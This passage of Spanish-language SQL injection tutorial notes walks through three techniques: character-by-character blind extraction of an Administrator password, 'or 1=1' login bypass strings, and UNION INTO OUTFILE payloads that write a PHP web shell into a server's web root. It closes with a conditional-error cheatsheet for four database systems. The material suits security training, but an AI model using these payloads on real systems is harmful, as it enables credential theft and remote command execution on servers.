 Para hacer esto, comenzamos con la siguiente entrada:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

Esto devuelve el mensaje "Bienvenido de nuevo", que indica que la condición inyectada es verdadera, por lo que el primer carácter de la contraseña es mayor que `m`.

A continuación, enviamos la siguiente entrada:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

Esto no devuelve el mensaje "Bienvenido de nuevo", lo que indica que la condición inyectada es falsa, por lo que el primer carácter de la contraseña no es mayor que `t`.

Finalmente, enviamos la siguiente entrada, que devuelve el mensaje "Bienvenido de nuevo", confirmando así que el primer carácter de la contraseña es `s`:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

Podemos continuar este proceso para determinar sistemáticamente la contraseña completa para el `Administrator` usuario.

## Obteniendo el usuario y contraseña de acceso.

Antes de complicarse, preferible probar inyecciones básicas sobre paneles de autenticación, esto es:

```sql
Usuario: admin' or 1=1-- -
Password: admin' or 1=1-- -
```

## Ejecutar comandos sobre el sistema
En caso de querer ejecutar comandos sobre el sistema, podemos aprovechar que desde consultas **sql** se pueden exportar archivos para generar el nuestro malicioso. Para ello, aplicaríamos la siguiente sintaxis a modo de ejemplo:

```sql
#WINDOWS
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

#LINUX
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
```

### CHEATSHEET BLIND SQL INJECTION
|DBMS|CONDITIONAL ERROR|
|:-----:|:----:|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`|
|Microsoft|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`|

